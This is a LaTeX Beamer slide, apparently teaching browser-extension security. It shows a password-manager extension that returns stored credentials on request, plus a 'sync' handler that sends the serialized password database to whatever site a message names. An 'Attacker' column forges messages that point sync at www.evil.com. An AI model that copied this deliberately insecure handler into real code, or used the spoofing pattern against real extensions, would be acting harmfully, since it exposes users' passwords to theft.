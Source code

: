 \documentclass[11pt]{beamer}
\begin{document}
\begin{frame}[fragile]{Example}
\begin{columns}[T]
\begin{column}{.48\textwidth}
Content script 1:
\begin{tiny}
\begin{lstlisting}
chrome.runtime.sendMessage(
    {tag: "req", site: "www.google.com"});
\end{lstlisting}
\end{tiny}
Content script 2:
\begin{tiny}
\begin{lstlisting}
chrome.runtime.sendMessage(
    {tag: "sync", 
    site: "www.password1.com"});
\end{lstlisting}
\end{tiny}
Attacker:
\begin{tiny}
\begin{lstlisting}
chrome.runtime.sendMessage(...);
chrome.runtime.sendMessage(
    {tag: "req", site: "www.google.com"});
chrome.runtime.sendMessage(
    {tag: "sync", site: "www.evil.com"});
\end{lstlisting}
\end{tiny}
\end{column}
\vrule{}
\begin{column}{.48\textwidth}
Extension Core:
\begin{tiny}
\begin{lstlisting}
chrome.runtime.onMessage.addListener(
  function (msg, sender, sendResp) {
    if (msg.tag == "req") {
      var u = DB.getUser(msg.site);
      var p = DB.getPwd(msg.site);
      sendResp({"user": u, "pwd": p});
    }
    else if (msg.tag == "sync") {
      var db = DB.serialize();
      xmlhttp.open("GET", msg.site + db);
      xmlhttp.send();
    }
    else
      console.log ("Invalid message");
  });
\end{lstlisting}
\end{tiny}
\end{column}
\end{columns}
\end{frame}
\end{document}
